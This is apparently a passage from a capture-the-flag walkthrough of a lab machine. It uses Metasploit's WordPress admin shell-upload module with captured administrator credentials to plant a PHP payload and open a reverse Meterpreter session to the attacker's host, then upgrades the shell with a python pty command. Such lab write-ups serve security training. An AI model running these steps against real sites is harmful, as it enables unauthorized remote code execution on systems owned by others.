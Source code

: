 With info we can list some more information about the exploit we just selected. It will also show all options we need to set in order to use this exploit:

```sh
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.10.10.229
rhost => 10.10.10.229
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.14
lhost => 10.10.14.14
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lport 6666
lport => 6666
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username administrator
username => administrator
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password devteam01
password => devteam01
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /main
targeturi => /main
msf6 exploit(unix/webapp/wp_admin_shell_upload) >
```

We can trigger the exploit by typing `exploit`

```sh
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.14:6666
[*] Authenticating with WordPress using administrator:devteam01...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /main/wp-content/plugins/OrysVvliVK/nrphPvSBfR.php...
[*] Sending stage (39282 bytes) to 10.10.10.229
[+] Deleted nrphPvSBfR.php
[+] Deleted OrysVvliVK.php
[+] Deleted ../OrysVvliVK
[*] Meterpreter session 1 opened (10.10.14.14:6666 -> 10.10.10.229:39716) at 2021-05-19 21:31:08 +0200

meterpreter >
```

And we have a meterpreter session. Now lets enter a shell and upgrade this to a full tty

```sh
meterpreter > shell
Process 4875 created.
Channel 0 created.
sh: 0: getcwd() failed: No such file or directory
sh: 0: getcwd() failed: No such file or directory

cd /

python3 -c "import pty; pty.spawn('/bin/bash')"
nginx@spectra / $ export TERM=xterm
export TERM=xterm
nginx@spectra / $
```
